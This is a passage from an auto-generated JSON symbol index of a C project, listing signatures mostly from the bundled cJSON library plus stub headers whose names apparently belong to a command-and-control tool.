"sha256": "7b56b2b7a5c39749", "symbol_count": 2, "symbols": [{"kind": "function", "line": 4, "name": "bof_api_versioning_process", "signature": "bool bof_api_versioning_process(void);"}, {"kind": "macro", "line": 2, "name": "BOF_API_VERSIONING_H", "signature": "#define BOF_API_VERSIONING_H"}]}, {"id": "include/bof_path_traversal_hardening.h", "kind": "module", "label": "bof_path_traversal_hardening.h", "language": "h", "sha256": "ae22c85f6b53f159", "symbol_count": 2, "symbols": [{"kind": "function", "line": 4, "name": "bof_path_traversal_hardening_process", "signature": "bool bof_path_traversal_hardening_process(void);"}, {"kind": "macro", "line": 2, "name": "BOF_PATH_TRAVERSAL_HARDENING_H", "signature": "#define BOF_PATH_TRAVERSAL_HARDENING_H"}]}, {"id": "include/bof_streaming_(large_outputs).h", "kind": "module", "label": "bof_streaming_(large_outputs).h", "language": "h", "sha256": "c8d2ef8bb7dafd2a", "symbol_count": 2, "symbols": [{"kind": "function", "line": 4, "name": "bof_streaming_", "signature": "bool bof_streaming_(large_outputs)_process(void);"}, {"kind": "macro", "line": 2, "name": "BOF_STREAMING_", "signature": "#define BOF_STREAMING_(LARGE_OUTPUTS)"}]}, {"id": "include/c2_rest_api.h", "kind": "module", "label": "c2_rest_api.h", "language": "h", "sha256": "68bfc67f415a59b7", "symbol_count": 2, "symbols": [{"kind": "function", "line": 4, "name": "c2_rest_api_process", "signature": "bool c2_rest_api_process(void);"}, {"kind": "macro", "line": 2, "name": "C2_REST_API_H", "signature": "#define C2_REST_API_H"}]}, {"id": "include/cJSON.c", "kind": "module", "label": "cJSON.c", "language": "c", "sha256": "0b83a1dce69d6646", "symbol_count": 125, "symbols": [{"kind": "struct", "line": 158, "name": "internal_hooks"}, {"kind": "struct", "line": 89, "name": "error"}, {"kind": "struct", "line": 292, "name": "parse_buffer"}, {"kind": "struct", "line": 485, "name": "printbuffer"}, {"kind": "function", "line": 96, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(const char *) cJSON_GetErrorPtr(void)"}, {"kind": "function", "line": 101, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(char *) cJSON_GetStringValue(const cJSON *const item)"}, {"kind": "function", "line": 111, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(double) cJSON_GetNumberValue(const cJSON *const item)"}, {"kind": "function", "line": 126, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(const char *) cJSON_Version(void)"}, {"doc": "/* This is a safeguard to prevent copy-pasters from using incompatible C and header files #if (CJSON_VERSION_MAJOR != 1) || (CJSON_VERSION_MINOR != 7) || (CJSON_VERSION_PATCH != 18) #error cJSON.h and cJSON.c have different versions. Make sure that both have the same. #endif CJSON_PUBLIC(const char *) cJSON_Version(void) { static char version[15]; sprintf(version, \"%i.%i.%i\", CJSON_VERSION_MAJOR, CJSON_VERSION_MINOR, CJSON_VERSION_PATCH); return version; } /* Case insensitive string comparison, doesn't consider two NULL pointers equal though", "kind": "function", "line": 135, "name": "case_insensitive_strcmp", "signature": "static int case_insensitive_strcmp(const unsigned char *string1, const unsigned char *string2)"}, {"doc": "} return tolower(*string1) - tolower(*string2); } typedef struct internal_hooks { void *(CJSON_CDECL *allocate)(size_t size); void(CJSON_CDECL *deallocate)(void *pointer); void *(CJSON_CDECL *reallocate)(void *pointer, size_t size); } internal_hooks; #if defined(_MSC_VER) /* work around MSVC error C2322: '...' address of dllimport '...' is not static", "kind": "function", "line": 167, "name": "internal_malloc", "signature": "static void *CJSON_CDECL internal_malloc(size_t size)"}, {"kind": "function", "line": 171, "name": "internal_free", "signature": "static void CJSON_CDECL internal_free(void *pointer)"}, {"kind": "function", "line": 175, "name": "internal_realloc", "signature": "static void *CJSON_CDECL internal_realloc(void *pointer, size_t size)"}, {"kind": "function", "line": 190, "name": "cJSON_strdup", "signature": "static unsigned char *cJSON_strdup(const unsigned char *string, const internal_hooks *const hooks)"}, {"kind": "function", "line": 211, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(void) cJSON_InitHooks(cJSON_Hooks *hooks)"}, {"doc": "if (hooks->free_fn != NULL) { global_hooks.deallocate = hooks->free_fn; } /* use realloc only if both free and malloc are used global_hooks.reallocate = NULL; if ((global_hooks.allocate == malloc) && (global_hooks.deallocate == free)) { global_hooks.reallocate = realloc; } } /* Internal constructor.", "kind": "function", "line": 243, "name": "cJSON_New_Item", "signature": "static cJSON *cJSON_New_Item(const internal_hooks *const hooks)"}, {"doc": "item->valuestring = NULL; } if (!(item->type & cJSON_StringIsConst) && (item->string != NULL)) { global_hooks.deallocate(item->string); item->string = NULL; } global_hooks.deallocate(item); item = next; } } /* get the decimal point character of the current locale", "kind": "function", "line": 282, "name": "get_decimal_point", "signature": "static unsigned char get_decimal_point(void)"}, {"doc": "size_t depth; /* How deeply nested (in arrays/objects) is the input at the current offset. internal_hooks hooks; } parse_buffer; /* check if the given size is left to read in a given parse buffer (starting with 1) #define can_read(buffer, size) ((buffer != NULL) && (((buffer)->offset + size) <= (buffer)->length)) /* check if the buffer can be accessed at the given index (starting with 0) #define can_access_at_index(buffer, index)                                                         \\ ((buffer != NULL) && (((buffer)->offset + index) < (buffer)->length)) #define cannot_access_at_index(buffer, index) (!can_access_at_index(buffer, index)) /* get a pointer to the buffer at the position #define buffer_at_offset(buffer) ((buffer)->content + (buffer)->offset) /* Parse the input text to generate a number, and populate the result into item.", "kind": "function", "line": 311, "name": "parse_number", "signature": "static cJSON_bool parse_number(cJSON *const item, parse_buffer *const input_buffer)"}, {"doc": "} typedef struct { unsigned char *buffer; size_t length; size_t offset; size_t depth; /* current nesting depth (for formatted printing) cJSON_bool noalloc; cJSON_bool format; /* is this print a formatted print internal_hooks hooks; } printbuffer; /* realloc printbuffer if necessary to have at least \"needed\" bytes more", "kind": "function", "line": 497, "name": "ensure", "signature": "static unsigned char *ensure(printbuffer *const p, size_t needed)"}, {"doc": "p->buffer = NULL; return NULL; } memcpy(newbuffer, p->buffer, p->offset + 1); p->hooks.deallocate(p->buffer); } p->length = newsize; p->buffer = newbuffer; return newbuffer + p->offset; } /* calculate the new length of the string in a printbuffer and update the offset", "kind": "function", "line": 583, "name": "update_offset", "signature": "static void update_offset(printbuffer *const buffer)"}, {"doc": "/* calculate the new length of the string in a printbuffer and update the offset static void update_offset(printbuffer *const buffer) { const unsigned char *buffer_pointer = NULL; if ((buffer == NULL) || (buffer->buffer == NULL)) { return; } buffer_pointer = buffer->buffer + buffer->offset; buffer->offset += strlen((const char *)buffer_pointer); } /* securely comparison of floating-point variables", "kind": "function", "line": 596, "name": "compare_double", "signature": "static cJSON_bool compare_double(double a, double b)"}, {"doc": "} buffer_pointer = buffer->buffer + buffer->offset; buffer->offset += strlen((const char *)buffer_pointer); } /* securely comparison of floating-point variables static cJSON_bool compare_double(double a, double b) { double maxVal = fabs(a) > fabs(b) ? fabs(a) : fabs(b); return (fabs(a - b) <= maxVal * DBL_EPSILON); } /* Render the number nicely from the given item into a string.", "kind": "function", "line": 603, "name": "print_number", "signature": "static cJSON_bool print_number(const cJSON *const item, printbuffer *const output_buffer)"}, {"doc": "output_pointer[i] = '.'; continue; } output_pointer[i] = number_buffer[i]; } output_pointer[i] = '\\0'; output_buffer->offset += (size_t)length; return true; } /* parse 4 digit hexadecimal number", "kind": "function", "line": 673, "name": "parse_hex4", "signature": "static unsigned parse_hex4(const unsigned char *const input)"}, {"doc": "converts a UTF-16 literal to UTF-8 * A literal can be one or two sequences of the form \\uXXXX", "kind": "function", "line": 710, "name": "utf16_literal_to_utf8", "signature": "static unsigned char utf16_literal_to_utf8(const unsigned char *const input_pointer,\n            ..."}, {"doc": "else { (*output_pointer)[0] = (unsigned char)(codepoint & 0x7F); } output_pointer += utf8_length; return sequence_length; fail: return 0; } /* Parse the input text into an unescaped cinput, and populate item.", "kind": "function", "line": 832, "name": "parse_string", "signature": "static cJSON_bool parse_string(cJSON *const item, parse_buffer *const input_buffer)"}, {"doc": "{ input_buffer->hooks.deallocate(output); output = NULL; } if (input_pointer != NULL) { input_buffer->offset = (size_t)(input_pointer - input_buffer->content); } return false; } /* Render the cstring provided to an escaped version that can be printed.", "kind": "function", "line": 964, "name": "print_string_ptr", "signature": "static cJSON_bool print_string_ptr(const unsigned char *const input,\n                            ..."}, {"doc": "/* escape and print as unicode codepoint sprintf((char *)output_pointer, \"u%04x\", *input_pointer); output_pointer += 4; break; } } } output[output_length + 1] = '\"'; output[output_length + 2] = '\\0'; return true; } /* Invoke print_string_ptr (which is useful) on an item.", "kind": "function", "line": 1087, "name": "print_string", "signature": "static cJSON_bool print_string(const cJSON *const item, printbuffer *const p)"}, {"doc": "static cJSON_bool print_string(const cJSON *const item, printbuffer *const p) { return print_string_ptr((unsigned char *)item->valuestring, p); } /* Predeclare these prototypes. static cJSON_bool parse_value(cJSON *const item, parse_buffer *const input_buffer); static cJSON_bool print_value(const cJSON *const item, printbuffer *const output_buffer); static cJSON_bool parse_array(cJSON *const item, parse_buffer *const input_buffer); static cJSON_bool print_array(const cJSON *const item, printbuffer *const output_buffer); static cJSON_bool parse_object(cJSON *const item, parse_buffer *const input_buffer); static cJSON_bool print_object(const cJSON *const item, printbuffer *const output_buffer); /* Utility to jump whitespace and cr/lf", "kind": "function", "line": 1101, "name": "buffer_skip_whitespace", "signature": "static parse_buffer *buffer_skip_whitespace(parse_buffer *const buffer)"}, {"doc": "while (can_access_at_index(buffer, 0) && (buffer_at_offset(buffer)[0] <= 32)) { buffer->offset++; } if (buffer->offset == buffer->length) { buffer->offset--; } return buffer; } /* skip the UTF-8 BOM (byte order mark) if it is at the beginning of a buffer", "kind": "function", "line": 1127, "name": "skip_utf8_bom", "signature": "static parse_buffer *skip_utf8_bom(parse_buffer *const buffer)"}, {"kind": "function", "line": 1143, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *)\ncJSON_ParseWithOpts(const char *value, const char **return_parse_end,\n     ..."}, {"kind": "function", "line": 1251, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *) cJSON_ParseWithLength(const char *value, size_t buffer_length)"}, {"kind": "function", "line": 1258, "name": "print", "signature": "static unsigned char *print(const cJSON *const item, cJSON_bool format,\n                         ..."}, {"kind": "function", "line": 1333, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(char *) cJSON_PrintUnformatted(const cJSON *item)"}, {"kind": "function", "line": 1338, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(char *) cJSON_PrintBuffered(const cJSON *item, int prebuffer, cJSON_bool fmt)"}, {"kind": "function", "line": 1369, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON_bool)\ncJSON_PrintPreallocated(cJSON *item, char *buffer, const int length, con..."}, {"doc": "return false; } p.buffer = (unsigned char *)buffer; p.length = (size_t)length; p.offset = 0; p.noalloc = true; p.format = format; p.hooks = global_hooks; return print_value(item, &p); } /* Parser core - when encountering text, process appropriately.", "kind": "function", "line": 1390, "name": "parse_value", "signature": "static cJSON_bool parse_value(cJSON *const item, parse_buffer *const input_buffer)"}, {"doc": "if (can_access_at_index(input_buffer, 0) && (buffer_at_offset(input_buffer)[0] == '[')) { return parse_array(item, input_buffer); } /* object if (can_access_at_index(input_buffer, 0) && (buffer_at_offset(input_buffer)[0] == '{')) { return parse_object(item, input_buffer); } return false; } /* Render a value to text.", "kind": "function", "line": 1450, "name": "print_value", "signature": "static cJSON_bool print_value(const cJSON *const item, printbuffer *const output_buffer)"}, {"doc": "return print_string(item, output_buffer); case cJSON_Array: return print_array(item, output_buffer); case cJSON_Object: return print_object(item, output_buffer); default: return false; } } /* Build an array from input text.", "kind": "function", "line": 1524, "name": "parse_array", "signature": "static cJSON_bool parse_array(cJSON *const item, parse_buffer *const input_buffer)"}, {"doc": "input_buffer->offset++; return true; fail: if (head != NULL) { cJSON_Delete(head); } return false; } /* Render an array to text", "kind": "function", "line": 1621, "name": "print_array", "signature": "static cJSON_bool print_array(const cJSON *const item, printbuffer *const output_buffer)"}, {"doc": "output_pointer = ensure(output_buffer, 2); if (output_pointer == NULL) { return false; } output_pointer++ = ']'; output_pointer = '\\0'; output_buffer->depth--; return true; } /* Build an object from the text.", "kind": "function", "line": 1683, "name": "parse_object", "signature": "static cJSON_bool parse_object(cJSON *const item, parse_buffer *const input_buffer)"}, {"doc": "input_buffer->offset++; return true; fail: if (head != NULL) { cJSON_Delete(head); } return false; } /* Render an object to text.", "kind": "function", "line": 1801, "name": "print_object", "signature": "static cJSON_bool print_object(const cJSON *const item, printbuffer *const output_buffer)"}, {"kind": "function", "line": 1937, "name": "get_array_item", "signature": "static cJSON *get_array_item(const cJSON *array, size_t index)"}, {"kind": "function", "line": 1956, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *) cJSON_GetArrayItem(const cJSON *array, int index)"}, {"kind": "function", "line": 1966, "name": "get_object_item", "signature": "static cJSON *get_object_item(const cJSON *const object, const char *const name,\n                ..."}, {"kind": "function", "line": 2003, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *) cJSON_GetObjectItem(const cJSON *const object, const char *const string)"}, {"kind": "function", "line": 2008, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *)\ncJSON_GetObjectItemCaseSensitive(const cJSON *const object, const char *con..."}, {"kind": "function", "line": 2014, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON_bool) cJSON_HasObjectItem(const cJSON *object, const char *string)"}, {"doc": "} CJSON_PUBLIC(cJSON *) cJSON_GetObjectItemCaseSensitive(const cJSON *const object, const char *const string) { return get_object_item(object, string, true); } CJSON_PUBLIC(cJSON_bool) cJSON_HasObjectItem(const cJSON *object, const char *string) { return cJSON_GetObjectItem(object, string) ? 1 : 0; } /* Utility for array list handling.", "kind": "function", "line": 2020, "name": "suffix_object", "signature": "static void suffix_object(cJSON *prev, cJSON *item)"}, {"doc": "CJSON_PUBLIC(cJSON_bool) cJSON_HasObjectItem(const cJSON *object, const char *string) { return cJSON_GetObjectItem(object, string) ? 1 : 0; } /* Utility for array list handling. static void suffix_object(cJSON *prev, cJSON *item) { prev->next = item; item->prev = prev; } /* Utility for handling references.", "kind": "function", "line": 2027, "name": "create_reference", "signature": "static cJSON *create_reference(const cJSON *item, const internal_hooks *const hooks)"}, {"kind": "function", "line": 2048, "name": "add_item_to_array", "signature": "static cJSON_bool add_item_to_array(cJSON *array, cJSON *item)"}, {"doc": "/* Add item to array/object. CJSON_PUBLIC(cJSON_bool) cJSON_AddItemToArray(cJSON *array, cJSON *item) { return add_item_to_array(array, item); } #if defined(__clang__) ||                                                                          \\ (defined(__GNUC__) && ((__GNUC__ > 4) || ((__GNUC__ == 4) && (__GNUC__ - MINOR__ > 5)))) #pragma GCC diagnostic push #endif #ifdef __GNUC__ #pragma GCC diagnostic ignored \"-Wcast-qual\" #endif /* helper function to cast away const", "kind": "function", "line": 2095, "name": "cast_away_const", "signature": "static void *cast_away_const(const void *string)"}, {"kind": "function", "line": 2104, "name": "add_item_to_object", "signature": "static cJSON_bool add_item_to_object(cJSON *const object, const char *const string,\n             ..."}, {"kind": "function", "line": 2143, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON_bool) cJSON_AddItemToObject(cJSON *object, const char *string, cJSON *item)"}, {"kind": "function", "line": 2154, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON_bool) cJSON_AddItemReferenceToArray(cJSON *array, cJSON *item)"}, {"kind": "function", "line": 2164, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON_bool)\ncJSON_AddItemReferenceToObject(cJSON *object, const char *string, cJSON ..."}, {"kind": "function", "line": 2176, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *) cJSON_AddNullToObject(cJSON *const object, const char *const name)"}, {"kind": "function", "line": 2188, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *) cJSON_AddTrueToObject(cJSON *const object, const char *const name)"}, {"kind": "function", "line": 2200, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *) cJSON_AddFalseToObject(cJSON *const object, const char *const name)"}, {"kind": "function", "line": 2212, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *)\ncJSON_AddBoolToObject(cJSON *const object, const char *const name, const cJ..."}, {"kind": "function", "line": 2225, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *)\ncJSON_AddNumberToObject(cJSON *const object, const char *const name, const ..."}, {"kind": "function", "line": 2238, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *)\ncJSON_AddStringToObject(cJSON *const object, const char *const name, const ..."}, {"kind": "function", "line": 2251, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *)\ncJSON_AddRawToObject(cJSON *const object, const char *const name, const cha..."}, {"kind": "function", "line": 2264, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *) cJSON_AddObjectToObject(cJSON *const object, const char *const name)"}, {"kind": "function", "line": 2276, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *) cJSON_AddArrayToObject(cJSON *const object, const char *const name)"}, {"kind": "function", "line": 2288, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *) cJSON_DetachItemViaPointer(cJSON *parent, cJSON *const item)"}, {"kind": "function", "line": 2324, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *) cJSON_DetachItemFromArray(cJSON *array, int which)"}, {"kind": "function", "line": 2334, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(void) cJSON_DeleteItemFromArray(cJSON *array, int which)"}, {"kind": "function", "line": 2339, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *) cJSON_DetachItemFromObject(cJSON *object, const char *string)"}, {"kind": "function", "line": 2346, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *) cJSON_DetachItemFromObjectCaseSensitive(cJSON *object, const char *string)"}, {"kind": "function", "line": 2353, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(void) cJSON_DeleteItemFromObject(cJSON *object, const char *string)"}, {"kind": "function", "line": 2358, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(void) cJSON_DeleteItemFromObjectCaseSensitive(cJSON *object, const char *string)"}, {"kind": "function", "line": 2400, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON_bool)\ncJSON_ReplaceItemViaPointer(cJSON *const parent, cJSON *const item, cJSO..."}, {"kind": "function", "line": 2451, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON_bool) cJSON_ReplaceItemInArray(cJSON *array, int which, cJSON *newitem)"}, {"kind": "function", "line": 2461, "name": "replace_item_in_object", "signature": "static cJSON_bool replace_item_in_object(cJSON *object, const char *string, cJSON *replacement,\n ..."}, {"kind": "function", "line": 2486, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON_bool)\ncJSON_ReplaceItemInObject(cJSON *object, const char *string, cJSON *newi..."}, {"kind": "function", "line": 2492, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON_bool)\ncJSON_ReplaceItemInObjectCaseSensitive(cJSON *object, const char *string..."}, {"kind": "function", "line": 2510, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *) cJSON_CreateTrue(void)"}, {"kind": "function", "line": 2521, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *) cJSON_CreateFalse(void)"}, {"kind": "function", "line": 2532, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *) cJSON_CreateBool(cJSON_bool boolean)"}, {"kind": "function", "line": 2543, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *) cJSON_CreateNumber(double num)"}, {"kind": "function", "line": 2568, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *) cJSON_CreateString(const char *string)"}, {"kind": "function", "line": 2585, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *) cJSON_CreateStringReference(const char *string)"}, {"kind": "function", "line": 2597, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *) cJSON_CreateObjectReference(const cJSON *child)"}, {"kind": "function", "line": 2609, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *) cJSON_CreateArrayReference(const cJSON *child)"}, {"kind": "function", "line": 2621, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *) cJSON_CreateRaw(const char *raw)"}, {"kind": "function", "line": 2638, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *) cJSON_CreateArray(void)"}, {"kind": "function", "line": 2649, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *) cJSON_CreateObject(void)"}, {"kind": "function", "line": 2702, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *) cJSON_CreateFloatArray(const float *numbers, int count)"}, {"kind": "function", "line": 2743, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *) cJSON_CreateDoubleArray(const double *numbers, int count)"}, {"kind": "function", "line": 2784, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON *) cJSON_CreateStringArray(const char *const *strings, int count)"}, {"kind": "function", "line": 2832, "name": "cJSON_Duplicate_rec", "signature": "cJSON *cJSON_Duplicate_rec(const cJSON *item, size_t depth, cJSON_bool recurse)"}, {"kind": "function", "line": 2923, "name": "skip_oneline_comment", "signature": "static void skip_oneline_comment(char **input)"}, {"kind": "function", "line": 2937, "name": "skip_multiline_comment", "signature": "static void skip_multiline_comment(char **input)"}, {"kind": "function", "line": 2951, "name": "minify_string", "signature": "static void minify_string(char **input, char **output)"}, {"kind": "function", "line": 2977, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(void) cJSON_Minify(char *json)"}, {"kind": "function", "line": 3027, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON_bool) cJSON_IsInvalid(const cJSON *const item)"}, {"kind": "function", "line": 3037, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON_bool) cJSON_IsFalse(const cJSON *const item)"}, {"kind": "function", "line": 3047, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON_bool) cJSON_IsTrue(const cJSON *const item)"}, {"kind": "function", "line": 3057, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON_bool) cJSON_IsBool(const cJSON *const item)"}, {"kind": "function", "line": 3067, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON_bool) cJSON_IsNull(const cJSON *const item)"}, {"kind": "function", "line": 3077, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON_bool) cJSON_IsNumber(const cJSON *const item)"}, {"kind": "function", "line": 3087, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON_bool) cJSON_IsString(const cJSON *const item)"}, {"kind": "function", "line": 3097, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON_bool) cJSON_IsArray(const cJSON *const item)"}, {"kind": "function", "line": 3107, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON_bool) cJSON_IsObject(const cJSON *const item)"}, {"kind": "function", "line": 3117, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON_bool) cJSON_IsRaw(const cJSON *const item)"}, {"kind": "function", "line": 3127, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(cJSON_bool)\ncJSON_Compare(const cJSON *const a, const cJSON *const b, const cJSON_bo..."}, {"kind": "function", "line": 3214, "name": "cJSON_ArrayForEach", "signature": "cJSON_ArrayForEach(a_element, a)"}, {"doc": "doing this twice, once on a and b to prevent true comparison if a subset of b * TODO: Do this the proper way, this is just a fix for now", "kind": "function", "line": 3230, "name": "cJSON_ArrayForEach", "signature": "cJSON_ArrayForEach(b_element, b)"}, {"kind": "function", "line": 3251, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(void *) cJSON_malloc(size_t size)"}, {"kind": "function", "line": 3256, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(void) cJSON_free(void *object)"}, {"kind": "macro", "line": 28, "name": "_CRT_SECURE_NO_DEPRECATE", "signature": "#define _CRT_SECURE_NO_DEPRECATE"}, {"kind": "macro", "line": 65, "name": "true", "signature": "#define true"}, {"kind": "macro", "line": 70, "name": "false", "signature": "#define false"}, {"kind": "macro", "line": 75, "name": "isinf", "signature": "#define isinf(d)"}, {"kind": "macro", "line": 78, "name": "isnan", "signature": "#define isnan(d)"}, {"kind": "macro", "line": 83, "name": "NAN", "signature": "#define NAN"}, {"kind": "macro", "line": 85, "name": "NAN", "signature": "#define NAN"}, {"kind": "macro", "line": 180, "name": "internal_malloc", "signature": "#define internal_malloc"}, {"kind": "macro", "line": 181, "name": "internal_free", "signature": "#define internal_free"}, {"kind": "macro", "line": 182, "name": "internal_realloc", "signature": "#define internal_realloc"}, {"kind": "macro", "line": 186, "name": "static_strlen", "signature": "#define static_strlen(string_literal)"}, {"kind": "macro", "line": 302, "name": "can_read", "signature": "#define can_read(buffer, size)"}, {"kind": "macro", "line": 304, "name": "can_access_at_index", "signature": "#define can_access_at_index(buffer, index)"}, {"kind": "macro", "line": 306, "name": "cannot_access_at_index", "signature": "#define cannot_access_at_index(buffer, index)"}, {"kind": "macro", "line": 308, "name": "buffer_at_offset", "signature": "#define buffer_at_offset(buffer)"}, {"kind": "macro", "line": 1256, "name": "cjson_min", "signature": "#define cjson_min(a, b)"}]}, {"id": "include/cJSON.h", "kind": "module", "label": "cJSON.h", "language": "h", "sha256": "aa048199c598a213", "symbol_count": 40, "symbols": [{"doc": "#define cJSON_Invalid (0) #define cJSON_False (1 << 0) #define cJSON_True (1 << 1) #define cJSON_NULL (1 << 2) #define cJSON_Number (1 << 3) #define cJSON_String (1 << 4) #define cJSON_Array (1 << 5) #define cJSON_Object (1 << 6) #define cJSON_Raw (1 << 7) /* raw json #define cJSON_IsReference 256 #define cJSON_StringIsConst 512 /* The cJSON structure:", "kind": "struct", "line": 98, "name": "cJSON"}, {"kind": "struct", "line": 123, "name": "cJSON_Hooks"}, {"kind": "type_alias", "line": 130, "name": "cJSON_bool", "signature": "typedef int cJSON_bool;"}, {"kind": "function", "line": 152, "name": "cJSON_Parse", "signature": "* cJSON_Parse (with cJSON_Delete) and cJSON_Print (with stdlib free, cJSON_Hooks.free_fn, or * cJSON_free as appropriate). The exception is cJSON_PrintPreallocated, where the caller has * full respons"}, {"kind": "function", "line": 161, "name": "cJSON_GetErrorPtr", "signature": "* a pointer to the error so will match cJSON_GetErrorPtr(). */ CJSON_PUBLIC(cJSON *) cJSON_ParseWithOpts(const char *value, const char **return_parse_end, cJSON_bool require_null_terminated);"}, {"kind": "function", "line": 247, "name": "that", "signature": "* that (item->type & cJSON_StringIsConst) is zero before writing to `item->string` */ CJSON_PUBLIC(cJSON_bool) cJSON_AddItemToObjectCS(cJSON *object, const char *string, cJSON *item);"}, {"kind": "function", "line": 286, "name": "sensitive", "signature": "* sensitive (1) or case insensitive (0) */ CJSON_PUBLIC(cJSON_bool) cJSON_Compare(const cJSON *const a, const cJSON *const b, const cJSON_bool case_sensitive);"}, {"doc": "ifdef __cplusplus", "kind": "variable", "line": 27, "name": "next", "signature": "extern \"C\" { #endif #if !defined(__WINDOWS__) && \\ (defined(WIN32) || defined(WIN64) || defined(_MSC_VER) || defined(_WIN32)) #define __WINDOWS__ #endif #ifdef __WINDOWS__ /* When compiling for window"}, {"kind": "macro", "line": 24, "name": "cJSON__h", "signature": "#define cJSON__h"}, {"kind": "macro", "line": 33, "name": "__WINDOWS__", "signature": "#define __WINDOWS__"}, {"kind": "macro", "line": 49, "name": "CJSON_CDECL", "signature": "#define CJSON_CDECL"}, {"kind": "macro", "line": 50, "name": "CJSON_STDCALL", "signature": "#define CJSON_STDCALL"}, {"kind": "macro", "line": 54, "name": "CJSON_EXPORT_SYMBOLS", "signature": "#define CJSON_EXPORT_SYMBOLS"}, {"kind": "macro", "line": 58, "name": "CJSON_PUBLIC", "signature": "#define CJSON_PUBLIC(type)"}, {"kind": "macro", "line": 60, "name": "CJSON_PUBLIC", "signature": "#define CJSON_PUBLIC(type)"}, {"kind": "macro", "line": 62, "name": "CJSON_PUBLIC", "signature": "#define CJSON_PUBLIC(type)"}, {"kind": "macro", "line": 65, "name": "CJSON_CDECL", "signature": "#define CJSON_CDECL"}, {"kind": "macro", "line": 66, "name": "CJSON_STDCALL", "signature": "#define CJSON_STDCALL"}, {"kind": "macro", "line": 70, "name": "CJSON_PUBLIC", "signature": "#define CJSON_PUBLIC(type)"}, {"kind": "macro", "line": 72, "name": "CJSON_PUBLIC", "signature": "#define CJSON_PUBLIC(type)"}, {"kind": "macro", "line": 77, "name": "CJSON_VERSION_MAJOR", "signature": "#define CJSON_VERSION_MAJOR"}, {"kind": "macro", "line": 78, "name": "CJSON_VERSION_MINOR", "signature": "#define CJSON_VERSION_MINOR"}, {"kind": "macro", "line": 79, "name": "CJSON_VERSION_PATCH", "signature": "#define CJSON_VERSION_PATCH"}, {"kind": "macro", "line": 84, "name": "cJSON_Invalid", "signature": "#define cJSON_Invalid"}, {"kind": "macro", "line": 85, "name": "cJSON_False", "signature": "#define cJSON_False"}, {"kind": "macro", "line": 86, "name": "cJSON_True", "signature": "#define cJSON_True"}, {"kind": "macro", "line": 87, "name": "cJSON_NULL", "signature": "#define cJSON_NULL"}, 